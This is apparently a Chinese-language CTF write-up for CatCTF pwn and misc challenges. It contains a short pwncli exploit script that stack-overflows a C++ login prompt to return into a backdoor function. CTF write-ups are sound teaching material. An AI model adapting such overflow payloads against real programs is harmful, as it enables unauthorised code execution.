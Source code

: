 ```yaml
---
title: NepNep_Catctf_wp
date: 2023-01-02 15:31:15
tags: [CTF, NepNep, CatCtf, WP]
categories: 
    - CTF
    - NepNep
comment: true
---
```


# PWN

## welcome_CAT_CTF

### 分析
- 给了一个server文件和client文件
- client要求输入ip和port，然后进入一个地图界面

### 思路

- 猜测远程跑在server，直接ida动调，patch本地的client，然后直接拿远程的flag

## bitcoin

### 分析

- C++程序，login输入用户名和密码时可溢出
- Block构造函数会读写flag

### 思路

- 直接栈溢出返回到后门
- 需要注意的是menu函数内的bitcoin_start函数内fork了一个子程序，调试时需要设置下set follow-fork-mode parent跟父进程

### EXP
``` python
#!/usr/bin/env python3
# Date: 2022-12-31 22:06:36
# Link: https://github.com/RoderickChan/pwncli
# Usage:
#     Debug : python3 exp.py debug elf-file-path -t -b malloc
#     Remote: python3 exp.py remote elf-file-path ip:port

from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

# one_gadgets: list = get_current_one_gadget_from_libc(more=False)
CurrentGadgets.set_find_area(find_in_elf=True, find_in_libc=False, do_initial=False)

rl()
rl()
sl()
ru("Name: ")
sl("aa")
ru("Password: ")
stop()
sl(b"a"*64+p64_ex(0x609a00)+p64_ex(0x0000000000404EA4))
stop()
ia()
```

# Misc

## CatFlag

### 思路

- 直接cat 给的附件，有flag明文